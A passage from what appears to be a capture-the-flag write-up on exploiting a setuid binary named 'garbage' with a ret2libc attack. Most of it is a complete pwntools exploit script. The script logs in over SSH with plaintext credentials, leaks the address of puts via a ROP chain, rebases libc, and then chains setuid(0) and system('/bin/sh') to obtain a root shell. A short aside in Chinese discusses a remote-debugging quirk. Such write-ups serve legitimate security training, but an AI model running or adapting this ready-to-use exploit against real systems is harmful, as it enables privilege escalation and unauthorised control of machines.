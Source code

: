 libc.address = leaked_puts - libc.symbols['puts']

# Create new ROP object with rebased libc
rop = ROP(libc)
rop.call(libc.sym.setuid, [0])
rop.system(next(libc.search(b'/bin/sh\x00')))
{% endhighlight %}

- DEBUG过常中遇到未解的坑: 在没有调用setuid时候，ret2libc应该可以拿到margo用户的shell，本地调试时候利用成功，但是远程利用失败。但是如果构造rop的时候连续调用两次`system('/bin/sh')`可以成功，有点迷。
```python
rop.system(next(libc.search(b'/bin/sh\x00')))
rop.system(next(libc.search(b'/bin/sh\x00')))
```

## 0x04 Full exploit
{% highlight python %}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux', arch='amd64', log_level='INFO') 
context.binary = ELF('./garbage')
libc = ELF('./libc.so.6')

remote = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
p = remote.process('/usr/bin/garbage', shell=True)

# ============ Stage 1: leak ===================
rop = ROP(context.binary)
rop.call(context.binary.plt['puts'], [context.binary.got['puts']])
rop.call(context.binary.symbols['main'])
log.info('=======leak ROP========')
log.info(rop.dump())
log.info('=======leak ROP========')

payload = fit({136:rop.chain()})
p.sendlineafter('password: ', payload)
p.recvuntil('denied.\n')
tmp = p.recvline().strip() # carefully count bytes
leaked_puts = tmp.ljust(context.bytes, b"\x00")
log.info("Leak: {}".format(repr(leaked_puts)))
leaked_puts = struct.unpack('Q', leaked_puts)[0]

# ================Stage 2: ret2libc ===================
libc.address = leaked_puts - libc.symbols['puts']
log.info('Libc address: {}'.format(hex(libc.address)))

# Create new ROP object with rebased libc
rop2 = ROP(libc)
rop2.call(libc.sym.setuid, [0])
rop2.system(next(libc.search(b'/bin/sh\x00')))

log.info("=======rce ROP========")
log.info(rop2.dump())
log.info("=======rce ROP========")

payload = fit({136:rop2.chain()})
p.recvuntil("Enter access password: ")
p.sendline(payload)